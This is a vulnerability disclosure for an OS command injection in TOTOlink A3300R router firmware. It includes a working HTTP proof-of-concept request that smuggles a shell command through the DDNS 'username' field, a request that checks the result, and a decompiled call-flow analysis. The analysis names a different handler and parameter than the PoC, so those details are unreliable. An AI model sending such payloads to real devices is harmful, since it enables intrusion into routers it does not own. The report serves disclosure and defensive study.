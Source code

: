 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](D:\typora 图片\image-20240109124617070.png)

## Vulnerability Description

When deal with  `setDdnsCfg` request,`username` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=12B107C61AD15CFD HTTP/1.1
Host: itotolink.net
Content-Length: 134
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/ddns.html?token=12B107C61AD15CFD
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ext_pgvwcount=-0.1
Connection: close

{"enable":"1","provider":"3322.org","domain":"8.8.8.8","username":"admin`ls>/web/234.txt`","password":"admin","topicurl":"setDdnsCfg"}
```

injection the command "ls>/web/234.txt"

![image-20240109130442174](D:\typora 图片\image-20240109130442174.png)

check the result.

```
GET /234.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 17:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://itotolink.net/static/css/advance_menu.css
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ext_pgvwcount=-0.1
Connection: close
```

![image-20240109130507028](D:\typora 图片\image-20240109130507028.png)

## Analysis

sub_40E920 will handle the `setWanCfg` request. sub_40E920 get `hostName` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109130751395](D:\typora 图片\image-20240109130751395.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](D:\typora 图片\image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](D:\typora 图片\image-20240109131330610.png)